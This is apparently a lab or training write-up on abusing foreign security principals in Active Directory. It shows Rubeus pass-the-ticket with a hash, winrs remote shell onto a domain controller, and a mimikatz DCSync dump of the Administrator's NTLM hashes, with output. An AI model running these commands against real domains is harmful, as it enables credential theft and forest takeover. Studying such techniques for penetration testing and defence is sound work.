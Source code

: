 # Abusing Foreign Security Principals
- We can easily impersonate `techcorp\Administrator` and compromise the `bastion.local` forest.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:Administrator /rc4:BC4CF9B751D196C4B6E1A2BA923EF33F /domain:techcorp.local /dc:techcorp-dc.techcorp.local /ptt

PS C:\Auditor> winrs -r:bastion-dc.bastion.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.TECHCORP> whoami;hostname
whoami;hostname
techcorp\administrator
Bastion-DC
```
- We can also steal the credentials of `bastion\Administrator` to establish domain persistence and reach any other forests/domain that have established trusts with `bastion.local`.
```powershell
mimikatz # lsadump::dcsync /user:Administrator /domain:bastion.local /dc:bastion-dc.bastion.local
[DC] 'bastion.local' will be the domain
[DC] 'bastion-dc.bastion.local' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/12/2019 9:49:56 PM
Object Security ID   : S-1-5-21-284138346-1733301406-1958478260-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: f29207796c9e6829aa1882b7cccfa36d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 31b615437127e4a4badbea412c32e37f

<snip>
```